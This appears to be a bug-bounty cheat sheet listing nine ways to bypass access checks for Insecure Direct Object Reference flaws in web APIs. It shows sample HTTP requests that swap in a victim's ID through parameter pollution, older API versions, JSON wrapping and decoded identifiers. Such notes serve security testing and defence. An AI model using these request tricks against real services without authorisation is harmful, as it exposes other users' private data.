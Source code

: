 ## IDOR (Insecure Direct Object Reference)

1. Add parameters onto the endpoints for example, if there was
```html
GET /api/v1/getuser
[...]
```
Try this to bypass
```html
GET /api/v1/getuser?id=1234
[...]
```

2. HTTP Parameter pollution

```html
POST /api/get_profile
[...]
user_id=hacker_id&user_id=victim_id
```

3. Add .json to the endpoint

```html
GET /v2/GetData/1234
[...]
```
Try this to bypass
```html
GET /v2/GetData/1234.json
[...]
```

4. Test on outdated API Versions

```html
POST /v2/GetData
[...]
id=123
```
Try this to bypass
```html
POST /v1/GetData
[...]
id=123
```

5. Wrap the ID with an array.

```html
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```html
POST /api/get_profile
[...]
{"id":[111]}
```

6. Wrap the ID with a JSON object

```html
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```html
POST /api/get_profile
[...]
{"user_id":{"user_id":111}}
```

7. JSON Parameter Pollution

```html
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

8. Try decode the ID, if the ID encoded using md5,base64,etc
```html
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```
dmljdGltQG1haWwuY29t => victim@mail.com

9. If the website using graphql, try to find IDOR using graphql!
```html
GET /graphql
[...]
```
```html
GET /graphql.php?query=
[...]
```
